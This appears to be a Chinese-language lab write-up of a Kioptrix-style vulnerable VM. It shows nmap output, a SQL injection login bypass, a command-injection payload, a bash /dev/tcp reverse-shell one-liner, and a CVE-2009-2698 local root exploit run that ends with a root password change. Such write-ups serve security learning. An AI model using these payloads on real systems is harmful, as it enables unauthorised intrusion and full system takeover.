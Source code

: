 # 1. 信息收集

> nmap

~~~shell
# ip探测

# Nmap 7.92 scan initiated Thu May  5 00:55:05 2022 as: nmap -sn -oN pingscan.txt 192.168.1.0/24
Nmap scan report for 192.168.1.1
Host is up (0.0023s latency).
MAC Address: FC:61:E9:D9:E7:AC (Fiberhome Telecommunication Technologies)
Nmap scan report for 192.168.1.3
Host is up (0.00055s latency).
MAC Address: A4:5E:60:C2:D9:0B (Apple)
Nmap scan report for 192.168.1.101
Host is up (0.00087s latency).
MAC Address: 00:0C:29:C5:81:9A (VMware)
Nmap scan report for 192.168.1.7
Host is up.
# Nmap done at Thu May  5 00:55:07 2022 -- 256 IP addresses (4 hosts up) scanned in 2.03 seconds
发现主机：192.168.1.101

# 操作系统、端口、常用漏洞探测
# Nmap 7.92 scan initiated Thu May  5 00:56:12 2022 as: nmap -n -v -sV -A -sC -T5 -p- -Pn -o scan101.txt 192.168.1.101
Nmap scan report for 192.168.1.101
Host is up (0.00099s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey:
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            707/udp   status
|_  100024  1            710/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_ssl-date: 2022-05-05T01:43:12+00:00; -3h13m33s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de 29f9 fbfb 2eb2 beaf e624 3157 090f
|_SHA-1: 560c 9196 6506 fb0f fb81 66b1 ded3 ac11 2ed4 808a
|_http-server-header: Apache/2.0.52 (CentOS)
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods:
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
710/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:C5:81:9A (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.019 days (since Thu May  5 00:29:15 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=202 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: -3h13m33s

TRACEROUTE
HOP RTT     ADDRESS
1   0.99 ms 192.168.1.101

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  5 00:56:45 2022 -- 1 IP address (1 host up) scanned in 33.63 seconds
~~~

> web服务

访问首页访问源代码，发现一个登录页面：

<img src="https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/1.png" style="zoom:50%" />


~~~html
<html>
<body>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
	<table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
		<tr>
			<td colspan='2' align='center'>
			<b>Remote System Administration Login</b>
			</td>
		</tr>
		<tr>
			<td width="150">Username</td>
			<td><input name="uname" type="text"></td>
		</tr>
		<tr>
			<td width="150">Password</td>
			<td>
			<input name="psw" type="password">
			</td>
		</tr>
		<tr>
			<td colspan="2" align="center">
			<input type="submit" name="btnLogin" value="Login">
			</td>
		</tr>
	</table>
</form>

<!-- Start of HTML when logged in as Administator -->
</body>
</html>
~~~

`通过分析源代码，发现用户名大概率是administrator,但是没有密码信息，尝试万能密码：`

> `payload: `
>
> `uname:administrator' or '1'='1`
>
> `psw:' or '1'='1`

<img src="https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/2.png" style="zoom:50%" />

`payload:127.0.0.1;pwd;whoami;`

<img src="https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/3.png" style="zoom:50%" />

寻找写权限的目录：

<img src="https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/4.png" style="zoom:50%" />

> 弹shell

`payload:`

`192.168.1.7;bash -c 'exec bash -i &>/dev/tcp/192.168.1.7/8888 <&1';`

<img src="https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/5.png" style="zoom:50%" />



> 提权

我试了1397.c,但是提权不成功
~~~bash
bash-3.00$ gcc -o 0x82-CVE-2009-2698 9542.c && ./0x82-CVE-2009-2698
9542.c:109:28: warning: no newline at end of file
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
bash-3.00# passwd root
New UNIX password: 123456
BAD PASSWORD: it is too simplistic/systematic
Retype new UNIX password: 123456
Changing password for user root.
passwd: all authentication tokens updated successfully.
~~~

<img src="https://github.com/eagleatman/mywriteup/blob/main/kipptrix-11-23/images/6.png" style="zoom:50%" />
